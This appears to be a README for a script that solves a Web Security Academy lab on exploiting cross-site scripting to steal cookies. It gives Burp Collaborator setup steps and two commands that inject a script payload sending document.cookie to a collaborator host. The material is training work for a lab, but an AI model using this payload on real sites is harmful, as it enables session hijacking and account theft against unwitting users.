 # How to run script.py

### Exploiting cross-site scripting to steal cookies

Open Burp Collaborator: Open Burp Suite -> Click Burp (top left button) -> Click Burp Collaborator Client -> Click Copy to clipboard -> Now Burp Collaborator Server is running and waiting for requests

Replace the [0-9a-z]{30}.burpcollaborator.net address with the copied one

No Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<script>fetch('https://wqqkpxr9xiohablpj44se91x9ofe33.burpcollaborator.net/?'+document.cookie);</script>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<script>fetch('https://wqqkpxr9xiohablpj44se91x9ofe33.burpcollaborator.net/?'+document.cookie);</script>" -p 127.0.0.1:8080`
